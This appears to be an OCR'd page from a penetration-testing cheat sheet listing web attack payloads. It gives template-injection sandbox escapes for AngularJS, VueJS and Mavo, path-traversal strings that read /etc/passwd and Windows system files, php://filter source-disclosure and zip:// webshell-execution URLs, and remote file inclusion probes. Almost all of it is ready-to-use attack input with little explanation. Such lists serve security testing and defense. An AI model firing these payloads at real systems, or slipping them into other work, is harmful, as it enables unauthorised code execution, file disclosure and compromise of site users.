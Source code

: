 ### Client-Side Injection Examples


#### AngularJS
```html
{{$on.constructor('alert(1)')()}}
{{constructor.constructor('alert(1)')()}}
<div ng-app ng-csp><textarea autofocus ng-focus="d=$event.view.document;d.location.hash.match('x1') ? '' : d.location='//localhost/mH/'"></textarea></div>
```

#### VueJS
```vue
"><div v-html="''.constructor.constructor('d=document;d.location.hash.match(\'x1\') ? `` : d.location=`//localhost/mH`')()"> aaa</div>
{{_openBlock.constructor('alert(1)')()}}  # V3
{{constructor.constructor('alert(1)')()}}  # V2
```

#### Mavo
```mavo
[self.alert(1)]
javascript:alert(1)%252f%252f..%252fcss-images
```

## File Vulnerabilities

### LFI (Local File Inclusion)
#### Payloads
```sh
# Linux
../../../../../../../../../../../../etc/passwd

# Windows
..\..\..\..\..\..\..\..\..\..\..\..\Windows\system.ini
..\..\..\..\..\..\..\..\..\..\..\..\boot.ini
```

#### Importing with File Modifiers
Disclose PHP file source code:
```html
<url>?<arg>=php://filter/convert.base64-encode/resource=<php-file>.php
```

Execute webshell from a ZIP file:
```html
<url>?<arg>=zip://<path-to-zip-file>%23<webshell>?<args>
```

### RFI (Remote File Inclusion)
#### Payloads
```sh
www.google.com  # Expect to see HTML code as result
<your-url>:<port>  # Start a listener on the port and see if you receive an HTTP request
```
